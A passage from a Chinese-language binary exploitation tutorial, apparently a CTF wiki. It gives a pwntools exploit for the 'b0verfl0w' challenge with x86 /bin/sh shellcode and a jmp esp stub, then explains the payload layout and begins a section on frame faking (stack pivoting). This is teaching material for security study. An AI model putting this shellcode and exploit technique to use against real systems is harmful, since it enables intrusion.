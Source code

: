 所以最后的 exp 如下

```
from pwn import *
sh = process('./b0verfl0w')

shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode_x86 += "\x0b\xcd\x80"

sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
jmp_esp = 0x08048504
payload = shellcode_x86 + (
    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
sh.sendline(payload)
sh.interactive()
```

这里补充一下具体程序过程：

payload 结构如下：

```
shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp
```

1. 首先就是写入 shellcode 、填充、覆盖 ebp ；
2. 将 eip 覆盖为 ``jmp esp``；eip 是下一条指令存储寄存器。当程序运行 ``jmp esp`` 之后，程序运行指针将从 text 段转移到栈上，将栈上的数据当做代码指令运行。这样操作之后，``set esp point to shellcode and jmp esp`` 这一部分栈数据被当做是代码指令执行了。
3. ``sub esp,0x28;jmp esp`` ；将 esp 调整到 shellcode 的开始，当前 esp 和shellcode 的计算看前面；然后再一次 ``jmp esp`` ，将运行指针调整到 shellcode 。

## frame faking

> 也就是栈迁移

### 原理 

概括地讲，我们在之前讲的栈溢出不外乎两种方式

- 控制程序 EIP
- 控制程序 EBP

其最终都是控制程序的执行流。在 frame faking 中，我们所利用的技巧便是同时控制 EBP 与 EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其 payload 如下

```
buffer padding|fake ebp|leave ret addr|
```

即我们利用栈溢出将栈上构造为如上格式。这里我们主要讲下后面两个部分

- 函数的返回地址被我们覆盖为执行 leave ret 的地址，这就表明了函数在正常执行完自己的 leave ret 后，还会再次执行一次 leave ret。
- 其中 fake ebp 为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

```
fake ebp
|
v
ebp2|target function addr|leave ret addr|arg1|arg2
```

